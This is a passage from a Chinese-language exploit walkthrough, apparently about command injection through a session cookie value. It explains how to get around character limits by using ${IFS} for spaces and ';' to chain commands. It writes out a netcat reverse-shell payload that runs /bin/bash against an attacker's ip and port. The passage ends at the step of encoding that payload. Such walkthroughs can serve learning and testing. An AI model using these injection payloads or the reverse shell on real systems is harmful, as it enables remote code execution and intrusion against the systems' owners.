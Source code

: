 ### payload 编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写“会话友好” ”，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个 Cookie 值。

例如，如果我对字符串“ Hi Payload”进行编码并将其传递给应用程序，我将得到以下信息：

![image](img/909e9b46b492074ac4a067303ec388ec.png)

![image](img/f410d753088852e5ebc9f1938ac0ce0d.png)

如我们所见，该应用程序为我们设置了一个 cookie 而不是我们注入的 cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用“ $ {IFS}” bash 变量来表示空格的想法。

当然，我们需要使用“;”转义命令 如下所示：

```
;payload 
```

如果要使用 netcat 获得外壳，则需要创建以下有效负载：

```
;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port 
```

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![image](img/c42adf01f5217077f12e46b912f931ad.png)
